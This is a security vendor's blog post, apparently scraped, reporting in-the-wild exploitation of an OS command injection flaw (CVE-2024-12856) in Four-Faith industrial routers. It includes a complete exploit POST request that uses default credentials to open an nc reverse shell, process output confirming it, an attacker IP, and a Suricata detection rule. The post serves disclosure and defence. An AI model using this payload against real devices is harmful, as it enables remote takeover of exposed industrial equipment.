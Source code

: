 ```yaml
---
title: "Four-Faith Industrial Router CVE-2024-12856 Exploited in the Wild - Blog - VulnCheck"
date: 2024-12-27T00:00:00.000Z
draft: false
type: posts
categories: 
- 
---
```

# Four-Faith Industrial Router CVE-2024-12856 Exploited in the Wild - Blog - VulnCheck

<br/>

<br/>
VulnCheck observed a new post-authentication vulnerability affecting Four-Faith industrial routers being exploited in the wild. The attacker leveraged the router’s default credentials, effectively resulting in unauthenticated remote command injection. VulnCheck has assigned this issue \[CVE-2024-12856\](https://api.vulncheck.com/v3/index/vulncheck-kev?cve=CVE-2024-12856).\\n\\nThe attack can be conducted against, at least, the Four-Faith F3x24 and F3x36 over HTTP using the \`/apply.cgi\` endpoint. \[Censys\](https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per\_page=25&virtual\_hosts=EXCLUDE&q=same\_service%28services.http.response.headers%3A+%28key%3A+%60Server%60+and+value.headers%3A+%60httpd\_four-faith%60%29+and+services.http.response.protocol%3D%22HTTP%2F1.0%22+and+services.http.response.status\_reason%3D%22Ok%22%29+or+services.http.response.favicons.shodan\_hash%3D%22375199015%22) finds approximately 15,000 internet-facing devices. The systems are vulnerable to OS command injection in the \`adj\_time\_year\` parameter when modifying the device’s system time via \`submit\_type=adjust\_sys\_time\`. The following POST request demonstrates exploitation for a reverse shell.\\n\\n\`\`\`\\nPOST /apply.cgi HTTP/1.1\\nHost: 192.168.1.1:90\\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36\\nContent-Length: 296\\nAuthorization: Basic YWRtaW46YWRtaW4=\\nContent-Type: application/x-www-form-urlencoded\\nAccept-Encoding: gzip\\nadj\_time\_sec=32&change\_action=gozila\_cgi&adj\_time\_day=27&adj\_time\_mon=10&adj\_time\_hour=11&adj\_time\_year=%24%28cd+%2Ftmp%2F%3B+mknod+bOY+p%3Bcat+bOY%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+192.168.1.206+1270+%3EbOY%3B+rm+bOY%3B%29&adj\_time\_min=35&submit\_button=index&action=Save&submit\_type=adjust\_sys\_time\\n\`\`\`\\n\\nOn the device, the result of the injection can be observed using \`ps\`:\\n\\n\`\`\`\\n20938 admin 1640 S sh -c rtc\_tm ss $(cd /tmp/; mknod WaO p;cat WaO|/bin\\n20940 admin 1640 S sh -c rtc\_tm ss $(cd /tmp/; mknod WaO p;cat WaO|/bin\\n20942 admin 1636 S cat WaO\\n20943 admin 1636 S /bin/sh -i\\n20945 admin 1636 S nc 192.168.1.206 1270\\n\`\`\`\\n\\nFor those that have an encyclopedic memory for exploits, this vulnerability should not be confused with \[CVE-2019-12168\](https://api.vulncheck.com/v3/index/vulncheck-kev?cve=CVE-2019-12168). While both flow through the \`apply.cgi\` endpoint, they attack different underlying components (CVE-2019-12168 attacks \`submit\_type=start\` and has an OS injection in the \`ping\_ip\` parameter).\\n\\nVulnCheck observed \[178.215.238\\\[.\\\]91\](https://viz.greynoise.io/ip/178.215.238.91) attempting to exploit this vulnerability. Additionally, we note that this November 2024 \[blog\](https://ducklingstudio.blog.fc2.com/blog-entry-392.html) also calls out exploitation of this vulnerability. Their observed User-Agent even matches the User-Agent VulnCheck observed in the wild (although we saw an entirely different payload).\\n\\nThe \[VulnCheck Initial Access\](https://vulncheck.com/product/initial-access-intelligence) team wrote the following Suricata rule to detect CVE-2024-12856 on the wire:\\n\`\`\`\\nalert http any any -> any any ( \\\\n msg:"VULNCHECK Four-Faith CVE-2024-12856 Exploit Attempt"; \\\\n flow:to\_server; \\\\n http.method; content:"POST"; \\\\n http.uri; content:"/apply.cgi"; startswith; \\\\n http.header\_names; content:"Authorization"; \\\\n http.request\_body; content:"change\_action="; \\\\n content:"adjust\_sys\_time"; \\\\n pcre:"/adj\_time\_\[^=\]+=\[a-zA-Z0-9\]\*\[^a-zA-Z0-9=\]/"; \\\\n classtype:web-application-attack; \\\\n reference:cve,CVE-2024-12856; \\\\n sid:12700438; rev:1;)\\n\`\`\`\\n\\nFinally, pursuant to our \[vulnerability disclosure policy\](https://vulncheck.com/vulnerability-disclosure-policy) for vulnerabilities exploited in the wild, we notified Four-Faith and our customers about this issue on December 20, 2024. Questions about patches, affected models, and affected firmware versions should be directed at Four-Faith.\\n\\n## About VulnCheck\\n\\nThe VulnCheck Initial Access team is always on the lookout for new exploitation in the wild. For more research like this, see our blogs, \[PaperCut Exploitation\](https://vulncheck.com/blog/papercut-rce), \[ProjectSend CVE-2024-11680 Exploited in the Wild\](https://vulncheck.com/blog/projectsend-exploited-itw), \[Fileless Remote Code Execution on Juniper Firewalls\\n\](https://vulncheck.com/blog/juniper-cve-2023-36845), and \[Does Confluence Dream of Shells?\](https://vulncheck.com/blog/confluence-dreams-of-shells)\\n\\nSign up to our website today to get free access to our \[VulnCheck KEV\](https://vulncheck.com/kev) and request a trial of our \[Initial Access Intelligence\](https://vulncheck.com/product/initial-access-intelligence) and \[Exploit & Vulnerability Intelligence\](https://vulncheck.com/product/exploit-intelligence) products.\\n

#### [Source](https://vulncheck.com/blog/four-faith-cve-2024-12856)

<br/>
---
